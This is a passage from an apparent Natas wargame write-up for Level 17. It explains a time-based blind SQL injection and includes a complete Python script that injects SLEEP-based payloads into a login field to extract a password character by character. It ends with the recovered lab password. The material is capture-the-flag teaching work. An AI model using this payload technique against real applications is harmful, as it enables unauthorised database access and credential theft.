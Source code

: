 Quite simply, if the first character of the password is `a`, then `SLEEP(5)`. For we just brute force our way such that we capture the first character in the password, then the second, and so on.

```py
def analyse_time():
    password = ""
    character_set = "0123456789abcdefghijklmnopqrstuvwxyz"
    for _ in range(32):
        for char in character_set:
            lower = char.lower()
            _payload = {'username' : 'natas18" and if (password LIKE BINARY "'+password+lower+'%", SLEEP(5), 0) #'}
            response = receive_response(_payload)
            response_time = str(response.elapsed)
            dot_index = response_time.index(".")
            response_time = response_time[0:dot_index]
            try:
                last_index = len(response_time)
                response_time_seconds = int(response_time[last_index-1:last_index])
                if(response_time_seconds >= 5):
                    password = password + lower
                    print(password)
            except:
                pass

            upper = char.upper()
            _payload = {'username':'natas18" and if (password LIKE BINARY "'+password+upper+'%", SLEEP(5), 0) #'}
            response = receive_response(_payload)
            response_time = str(response.elapsed)
            dot_index = response_time.index(".")
            response_time = response_time[0:dot_index]
            try:
                last_index = len(response_time)
                response_time_seconds = int(response_time[last_index-1:last_index])
                if(response_time_seconds >= 5):
                    password = password + upper
                    print(password)
            except:
                pass
    print(password)


analyse_time()
```

A better solution is [here](https://www.abatchy.com/2016/12/natas-level-17). It is like taking out the characters which are present in the password and running the above loop only on them. Testing for such characters occurs 

Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

# Level 18
